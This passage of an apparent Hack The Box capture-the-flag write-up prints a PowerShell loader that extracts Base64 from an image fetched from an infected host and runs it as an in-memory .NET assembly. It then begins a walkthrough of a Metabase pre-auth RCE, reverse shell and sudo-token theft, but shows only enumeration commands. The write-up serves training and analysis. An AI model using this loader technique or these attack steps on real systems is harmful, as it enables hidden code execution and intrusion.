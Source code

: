 ```js
$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);
$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;

$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes = [System.Convert]::FromBase64String($base64Command);
$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('Fiber.Home');
$method = $type.GetMethod('VAI').Invoke($null, [object[]] ('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=' , 'dfdfd' , 'dfdf' , 'dfdf' , 'dadsa' , 'de' , 'cu'))
```
The script downloads an image from `http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg` and decodes the Base64 data inside the markers. We can download the image from the previously found link and decode the final part between `<<BASE64_START>>` and `<<BASE64_END>>`.

By decoding it we can get the flag at the end of the string.


## Fullpwn: Apethanto - Easy
### Description
Apethanto is an Easy Linux machine hosting a Metabase instance that is vulnerable to pre-authentication Remote Code Execution (RCE). By finding the exposed setup-token, the attacker leverages the vulnerability to obtain a reverse shell on the target. Once the attacker gets a shell on the remote machine as the user metabase he may notice that there is a cron that executes sudo apt update from a different TTY terminal. This means, that the user metabase has an active SUDO token. Since the user belongs to the sudo group, the attacker is able to steal the valid SUDO token in order to get root privileges.

### Enumeration
```bash
rustscan -a 10.129.240.39 -- -A -sC
```
The scan output informs us that Nginx and SSH are the only available services listening on port 80 and 22 respectively, and we get redirected to `apethanto.htb` when visiting the website on port 80. Let's add this to our hosts file.
```
echo "10.129.240.39 apethanto.htb" | sudo tee -a /etc/hosts
```
The page appears mostly static, but hovering over the "For Doctors" hyperlink or inspecting the site's source code reveals a hyperlink to a metabase virtual host, which we can add to our hosts file.
```
echo "10.129.240.39 metabase.apethanto.htb" | sudo tee -a /etc/hosts
```
Browsing to the discovered virtual host, we find a login prompt for the Metabase service:
